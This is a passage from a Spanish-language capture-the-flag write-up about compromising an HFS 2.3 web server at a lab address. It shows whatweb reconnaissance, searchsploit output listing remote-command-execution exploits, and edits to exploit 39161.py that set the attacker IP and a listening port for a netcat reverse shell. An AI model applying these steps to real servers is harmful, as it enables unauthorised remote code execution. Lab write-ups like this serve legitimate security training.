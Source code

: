 ## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del servicio `web` donde inicialmente, por medio de la utilidad `whatweb` enumeramos información de librerías, gestores de contenido, entre otros.

```bash
whatweb 10.10.10.8
http://10.10.10.8 [200 OK] Cookies[HFS_SID], Country[RESERVED][ZZ], HTTPServer[HFS 2.3], HttpFileServer, IP[10.10.10.8], JQuery[1.4.4], Script[text/javascript], Title[HFS /]
```

## INTRUSION

Hacemos uso de `searchsploit` buscando potenciales maneras de intrusión por medio de la explotación de `HFS 2.3`.

```bash
searchsploit HFS 2.3
------------------------------------------------------------------------------------------------------------------------------------ -------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ -------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                                                         | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                         | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                           | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------ -------------------------------
```

Vamos a ubicarnos en la carpeta `exploit` y a descargar el exploit `windows/remote/39161.py`.

```bash
cd ../exploit
searchsploit -m windows/remote/39161.py
```

Luego de revisar el exploit, debemos modificar las líneas 35 y 36, ingresando la IP de nuestra máquina y el puerto por el cual vamos a estar por escucha a través de la utilidad `nc`.

```bash
vim 39161.py
#MODIFICAR LINEA 35 Y 36
ip_addr = "10.10.14.2" #local IP address
local_port = "4564" # Local Port number
```
